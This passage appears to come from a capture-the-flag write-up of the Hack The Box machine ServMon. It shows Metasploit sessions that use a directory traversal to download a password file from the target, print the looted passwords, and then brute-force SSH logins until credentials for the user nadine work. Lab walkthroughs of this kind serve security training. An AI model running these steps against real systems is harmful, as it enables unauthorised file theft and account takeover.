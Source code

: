 ```

msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set RHOSTS 10.10.10.184
RHOSTS => 10.10.10.184
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set FILEPATH /Users/Nathan/Desktop/Passwords.txt
FILEPATH => /Users/Nathan/Desktop/Passwords.txt
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > run

[+] 10.10.10.184:80 - Downloaded 156 bytes
[+] File saved in: /home/cyfun/.msf4/loot/20200611175532_default_10.10.10.184_nvms.traversal_675310.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/tvt_nvms_traversal)

$ cat /home/cyfun/.msf4/loot/20200611175532_default_10.10.10.184_nvms.traversal_675310.txt
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

### Network exploitation: SSH

With the looted passwords let's bruteforce SSH for the users nadine and nathan
by using a [metasploit][msf] module.

```
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 10.10.10.184
RHOSTS => 10.10.10.184
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /home/cyfun/.msf4/loot/20200611175532_default_10.10.10.184_nvms.traversal_675310.txt
PASS_FILE => /home/cyfun/.msf4/loot/20200611175532_default_10.10.10.184_nvms.traversal_675310.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /home/cyfun/CTF/HackTheBox/machines/ServMon/usernames.txt
USER_FILE => /home/cyfun/CTF/HackTheBox/machines/ServMon/usernames.txt
msf5 auxiliary(scanner/ssh/ssh_login) > run

[+] 10.10.10.184:22 - Success: 'nadine:L1k3B1gBut7s@W0rk' ''id' is not recognized as an internal or external command,  operable program or batch file.  '
[*] Command shell session 1 opened (10.10.15.26:45331 -> 10.10.10.184:22) at 2020-06-11 18:10:19 +0200
[-] 10.10.10.184:22 - While a session may have opened, it may be bugged.  If you experience issues with it, re-run this module with 'set gatherproof off'.  Also consider submitting an issue at github.com/rapid7/metasploit-framework with device details so it can be handled in the future.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

So a valid set of credentials was `nadine:L1k3B1gBut7s@W0rk`.
